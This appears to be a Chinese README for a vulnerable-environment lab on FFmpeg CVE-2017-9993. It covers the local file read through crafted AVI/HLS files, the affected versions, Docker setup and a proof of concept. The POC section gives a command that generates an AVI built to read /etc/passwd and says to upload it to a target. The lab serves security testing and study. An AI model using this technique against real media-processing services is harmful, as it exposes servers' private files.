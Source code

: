 ## FFmpeg 文件读取漏洞(CVE-2017-9993)

### 漏洞信息

FFmpeg是一个完整的跨平台解决方案，用于记录、转换流式传输音频和视频，可用于预览生成和视频转换的视频编码软件。已知FFmpeg可以处理可能包含对外部文件的引用的HLS播放列表,可以使用AVI文件中的GAB2字幕块来触发此功能，再通过XBIN编解码器检索转换节点的本地文件，从而导致了可以在转码后的视频里包含了本地文件.

### 影响范围

小于 2.8.12, 3.0.x 以及 3.1.x 版本小于 3.1.9, 3.2.x 小于 3.2.6, 以及 3.3.x 版本小于 3.3.2

### 镜像信息

类型 | 值
:-:|:-:
FFmpeg | 3.1.3
HTTP 端口 | 80
镜像 tag | f_ffmpeg_1

### 获取环境:

 ```
$ docker-compose up -d 
 ```



### POC

> 假如目标地址为： http://127.0.0.1:8000/

使用该脚本用于生成 POC: https://github.com/neex/ffmpeg-avi-m3u-xbin

以读取 `/etc/passwd` 为例：

1. 生成特殊的视频文件

```
$ python3 gen_xbin_avi.py file:///etc/passwd passwd.avi
```

2. 上传 [passwd.avi](./passwd.avi) 到目标，即可看到如下结果：

![](./poc.png)


### 相关链接

* [CVE-2017-9993 Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-9993)
* [ffmpeg-avi-m3u-xbin](https://github.com/neex/ffmpeg-avi-m3u-xbin)
* [FFmpeg 安全问题讨论](http://paper.seebug.org/338/)
